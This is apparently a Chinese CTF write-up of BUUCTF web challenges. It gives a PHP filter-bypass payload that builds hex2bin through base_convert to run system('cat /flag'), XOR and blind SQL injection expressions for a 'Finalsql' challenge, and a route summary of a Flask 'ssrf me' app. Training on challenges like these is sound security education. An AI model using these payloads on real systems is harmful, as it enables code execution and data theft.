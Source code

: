 但是`_GET`,`a`,`b`,`[]`都被过滤



hex2bin()可以把十六进制值的字符串转换为ascii字符

hex2bin(5f474554)就可以构造`_GET`



所以要构造`hex2bin函数`和`5f474554`

观察白名单里的函数

把hex2bin看成36进制

hex2bin=base_convert(37907361743,10,36)

同理:

`5f474554`=dechex(1598506324)

构造payload:

`/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag`

对于这个payload的理解:

c的值为`$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})`

前面的`$pi`和后面的`pi`不是一个概念,不会影响



# buuctf Finalsql

对于5个页面,id=6时也有一个页面

可以使用异或注入:

`?id=1^(1=1)^1`

回显正常

可以在括号中间加入payload

也可以使用:

`''or(ascii(substr(database(),1,1))>32)`

接下来使用盲注脚本即可



# buuctf ssrf me

拿到flask应用的源码,利用chatgpt整理一下

大概内容:

三个路由:

- /geneSign
	传递参数param和设置好的action=scan传入getSign生成签名
- /De1ta
	从cookie中获取action和sign，再获取参数param以及ip然后传入Task类中，以json形式返回Task->Exec()
- /
	首页，读取code.txt中的源码返回
